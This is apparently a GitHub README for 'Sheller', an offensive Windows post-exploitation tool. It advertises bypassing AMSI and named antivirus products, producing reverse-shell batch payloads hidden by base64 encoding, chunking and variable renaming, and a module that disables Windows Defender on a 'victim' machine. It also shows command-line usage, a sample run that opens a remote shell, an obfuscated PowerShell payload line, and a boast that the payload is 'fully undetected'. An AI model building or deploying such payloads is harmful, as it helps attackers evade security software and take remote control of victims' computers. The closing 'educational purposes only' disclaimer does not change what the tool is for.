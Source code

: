 # Sheller

Sheller is a Windows Post Exploitation Tool to bypass all known Anti-Malware Scanner Interfaces including Defender, Bitdefender, Kaspersky, McAfee, NANO-Antivirus, Kingsoft, Avast, Avira and many more.



For use python3 and powershell (Windows) or pwsh (Linux) are required, the script supports Windows and Linux distribution.
The module sheller is to gain reverse shell to the victims device, providing several amsi bypass module such as encoding, chunking and var randomization.
There is a module to disable any windows defender antivirus feature if executed with admin privileges too.
# Getting started
```
root@lukeproducts:~/Sheller# python3 sheller.py

Copyright LukeProducts 2022, all rights reserved
 ┌──────────────────────────────────────┐       
 │                   ▼         ##       │       
 │ ┌─────────────────┘    ┌────##───┐   │       
 │ │AMSI Bypass Tool      │    ##   │   │       
 │ └──────────────────────┘    ##   └─► │       
 │                             ##       │       
 │ © Copyright by LukeProducts ##       │       
 └──────────────────────────────────────┘       


usage: sheller2.0.py [-h] [-s SHELLOUTNAME] [-avkill ANTIVIRUSKILL] [-lh LOCALHOST] [-lp LOCALPORT] [-b64] [-ch] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLOUTNAME, --shelloutname SHELLOUTNAME
                        Reverse Shell. Value: fileoutputname. Requires: [-lh] [-lp], optional: [-b64] [-ch] [-v]
  -avkill ANTIVIRUSKILL, --antiviruskill ANTIVIRUSKILL
                        script to deactivate AV of victim if executed with admin privileges. Optional flag: [-b64] [-ch]
  -lh LOCALHOST, --localhost LOCALHOST
                        host for payload ("lh" for automatically assign host to this systems address)
  -lp LOCALPORT, --localport LOCALPORT
                        port for payload (4 digit number recommended)
  -b64                  encodes payload to base64
  -ch                   chunks up base64 encoded string (chunking probability in CHUNK_PROBABILITY)
  -v, --varencode       changes all variables names to an random 10 hex digit encoded into VAR_ENCODING encoding type (default is md5)
  ```


# Example
```
root@lukeproducts:~/Sheller# python3 sheller.py -s xy.bat -lh lh -lp 4444 -b64 -ch -v

Copyright LukeProducts 2022, all rights reserved
 ┌──────────────────────────────────────┐       
 │                   ▼         ##       │       
 │ ┌─────────────────┘    ┌────##───┐   │       
 │ │AMSI Bypass Tool      │    ##   │   │       
 │ └──────────────────────┘    ##   └─► │       
 │                             ##       │       
 │ © Copyright by LukeProducts ##       │       
 └──────────────────────────────────────┘       


Host set to "LukeProuctsKali" (192.168.0.129)

[*] Successfully exported payload to "xy.bat" with encoding base64 and chunked up 87 times!
listening on [any] 4444 ...
connect to [192.168.0.129] from (UNKNOWN) [192.168.0.129] 1716
Microsoft Windows [Version 10.0.19042.1415]
(c) Microsoft Corporation. All rights reserved.

D:\Victim>
```
```diff
- gsdf
```
### xy.bat: <a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Scan Result</a>
```
powershell /w 1 /C "$a=[scriptblock]::create([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('ZgB1AG4AYwB0AGkAbwBuACAAYwBsAGUAYQBuAHUAcAAgAHsAaQBm'+'ACAAKAAkADMAYwBhADQAYgBhADUANgA2AGMAZgBlAGQANQBjADEAYwA1ADMAMQBmAGQAMgA1ADkAYgBjAGYAMAA5ADcAOAAuAEMAbwBuAG4AZQBjAHQAZQBkACAALQBlAHEAIAAkAHQAcgB1AGUAKQAgAHsAJAAzAGMAYQA0AGIAYQA1ADYANgBjAGYAZQBk'+'ADUAYwAx'+'...')));Invoke-Command -ScriptBlock $a"
```



[![](https://user-images.githubusercontent.com/73026669/150165109-71b9f841-3b8e-42bd-a502-5d666244eaaf.png)](https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1)



[![Build Status](https://user-images.githubusercontent.com/73026669/110617122-9c75ad00-8195-11eb-9ba5-422356072776.png)](https://github.com/LukeProducts)


###
DISCLAIMER: THIS IS FOR EDUCATIONAL PURPOSES ONLY! 
NO LIABILITY FOR ILLEGAL USE IS ASSUMED!
###
© Copyright by LukeProducts

